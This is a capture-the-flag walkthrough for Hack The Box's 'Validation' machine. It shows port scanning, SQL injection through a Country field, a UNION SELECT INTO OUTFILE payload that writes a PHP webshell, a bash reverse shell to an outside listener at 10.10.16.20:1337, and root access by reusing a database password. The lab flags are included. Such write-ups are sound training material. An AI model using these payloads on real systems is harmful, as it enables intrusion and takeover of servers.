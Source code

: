 # Validation
> Write-up author: jon-brandy

## Lesson Learned:
- SQLi Vuln leads to drop webshell allowance.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/34121d99-dd66-480a-a190-40e8a6267294)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.116 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 09:27 PDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 86.10% done; ETC: 09:27 (0:00:02 remaining)
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 87.80% done; ETC: 09:27 (0:00:02 remaining)
Nmap scan report for 10.10.11.116
Host is up (0.041s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.37 seconds
```

1. Based from the nmap result, our interest should be the web application and the ssh login. But anyway the only http port I can access is por 80.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/94029c75-dabe-43ca-9867-0bb97c48803d)


2. Intercepting the request in burpsuite, it seems we can change the country name to whatever we want.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e5374d98-bb44-42f2-bc8d-72974bb9a73a)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3873637f-4f76-45f4-a19f-51d8f4e1de8e)


3. Long story short, it's vulnerable to SQLi.

> Change the `Country` parameter to quote (').

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0023927a-4c1b-465b-8595-dac5e49189a5)


4. Great! Now we need to identify how many column that can be returned to us.

> USING ORDER BY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27270404-01d2-4156-86fd-d2be2b449ee8)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/038bfe71-1b92-4a2b-8279-82754521dff5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f601f06-c93f-4bf0-8184-f4030a378ca8)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0fcf2495-8894-4551-ad8a-741663e392a9)


5. Got error, when sending 2. It means we can only return 1 column.
6. Based from the wappalyzer, we knew that the webapp is using PHP.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/87af3c2f-6aaf-412c-a92f-e3dc9a7d1dd5)


7. Great, sqli vuln in php-based webapp should allows us to drop a webshell.

> PAYLOAD

```txt
' UNION SELECT "<?php SYSTEM($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

```
┌──(brandy㉿bread-yolk)-[~]
└─$ curl http://validation.htb/shell.php?cmd=id                                                                       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

8. Great, let's do reverse shell.

> REVSHELL

```
curl http://validation.htb/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"'
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b4b2a1b3-840d-4374-8e93-5bb3e1353cea)


9. Let's change from **SYSTEM** to **REQUEST**. So send our webshell first, then run the revshell again.

```
' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shellv2.php'-- -

curl http://validation.htb/shellv2.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.20/1337 0>&1"'
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/89caff78-8b16-486b-a51e-21072e1f527c)


10. Got shell!

> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b692f56-cf5e-4d82-a841-a1d3a25ede90)


## USER FLAG

```
51e2c20c4ab36b81abbf2838ec8b3a63
```


11. Obviously we can't check sudo permission. The only thing that should be our interest is the config.php file at /var/www/html

> CONFIG.PHP

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

12. In config.php, we found a hardcoded db password.
13. The interpretation is this .php should mean something to us, what if there's a **password re-use**.
14. To prove that, run `su` and enter the db password.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b0d79fff-29ca-4b74-a6e8-7674d1ea52fb)


15. And we got root..

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/588cdc68-51e8-4a40-b350-f4ee1aff4d6c)


## ROOT FLAG

```
e9cab8999cf80c96fb793662a56dec55
```
